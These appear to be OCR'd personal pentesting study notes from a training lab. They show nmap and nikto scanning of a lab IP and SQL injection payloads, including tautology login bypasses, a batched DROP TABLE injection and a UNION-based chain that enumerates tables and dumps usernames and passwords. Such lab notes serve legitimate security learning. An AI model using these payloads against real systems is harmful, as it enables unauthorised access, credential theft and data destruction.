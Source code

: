 --plugins-detection passive

NIKTO

By scanning the site with nmap and then piping it to nikto we can find and scan the other site.

nmap --top-ports 1000 10.10.64.208 -oG - | nikto -h

We can run add in the -Display 2 option and get the cookie for the JBoss server:

nikto -h 10.10.64.208 -p 8080 -Display 2

SQL INJECTION

19 Tháng Bảy 2022

6:52 SA

sql injection:

" OR 1=1 SELECT * FROM Users WHERE Name ="" OR 1=1 AND Pass ="" OR 1=1

SQL Injection Based on Batched SQL Statements:

SELECT * FROM Users; DROP TABLE Suppliers userid = getRequestString(“userID”); sql = “SELECT * FROM Users WHERE UserId =” + userid;

input: 2018; DROP TABLE Suppliers;

SELECT * FROM Users WHERE UserId = 2018; DROP TABLE Suppliers;

Reflected XSS:

In-Band SQLi

Check if there is a sqli vuln

' or "

check how many columns are returned

1 UNION SELECT 1

0 UNION SELECT 1,2,3

get the database name

0 UNION SELECT 1,2,database()

get the tables in the database

0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

get the column informations in the target table

0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

get the content of the table

0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users

Blind SQLi
